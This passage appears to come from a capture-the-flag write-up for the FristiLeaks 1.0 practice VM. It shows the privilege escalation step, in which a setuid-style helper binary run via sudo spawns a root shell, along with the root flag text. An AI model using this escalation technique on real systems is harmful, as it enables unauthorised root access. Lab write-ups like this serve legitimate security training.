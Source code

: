 

## Privilege Escalation

Execution of the doCom binary was possible using the user **fristi** from the logged in user **fristigod**, successfully escalating privileges.

{% highlight bash %}
sudo -u fristi .secret_admin_stuff/doCom /bin/sh
sh-4.1# id
id
uid=0(root) gid=100(users) groups=100(users),502(fristigod)
{% endhighlight %}

## Root Flag

{% highlight bash %}

cat fristileaks_secrets.txt
Congratulations on beating FristiLeaks 1.0 by Ar0xA [https://tldr.nu]

I wonder if you beat it in the maximum 4 hours it's supposed to take!

Flag: Y0u_kn0w_y0u_l0ve_fr1st1

{% endhighlight %}

Thanks for the VM :)
